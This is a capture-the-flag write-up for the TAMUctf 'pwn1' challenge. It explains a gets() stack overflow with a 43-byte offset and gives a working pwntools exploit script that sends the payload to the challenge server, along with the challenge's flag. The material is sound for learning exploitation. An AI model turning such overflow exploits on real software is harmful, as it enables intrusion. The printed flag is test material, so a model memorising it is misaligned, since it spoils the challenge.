

# pwn1 



### Links
```
nc pwn.tamuctf.com 4321
```

### Solution
For this challenge we are provided with a binary.

Running checksec gives us:
```diff
[*] './pwn1'
    Arch:     i386-32-little
+    RELRO:    Partial RELRO
-    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      PIE enabled
```

As we can see ```NX``` is enabled so we're not going to be able to run shellcode here.

The challenge asks us questions and only continues if we provide the correct response. The first two questions are trival strcmps

The second ```strcmp``` is shown below:


Question 1:
```
Q: What... is your name?\n
A: Sir Lancelot of Camelot\n
```

Question 2:
```
Q: What... is your quest?\n
A: To seek the Holy Grail.\n
```

The final question is where the overflow action is. From the decompilation we can see we need to overwrite a variable.


As it can be seen from the assembly we have a ```gets``` call with a buffer starting at ```ebp + 3Bh```.  The ```cmp``` instruction looks at ```ebp + 10h```. 

Therefore, this gives us a buffer size of 43 before we can push our value into the variable.

Below is the exploit code:

```python
from pwn import *

r = remote("pwn.tamuctf.com", 4321)

r.recvuntil("name?")
r.sendline("Sir Lancelot of Camelot")
r.recvuntil("quest?")
r.sendline("To seek the Holy Grail.")
r.recvuntil("secret?")

payload = b""
payload += b"A" * 43
payload += p32(0xdea110c8)

r.sendline(payload)
print(r.recvall().decode("utf-8"))
```

The code pushes the value of ```0xdea110c8``` into the location of the ```cmp``` instruction. When run it provides us with the flag.

```
FLAG: gigem{34sy_CC428ECD75A0D392}
```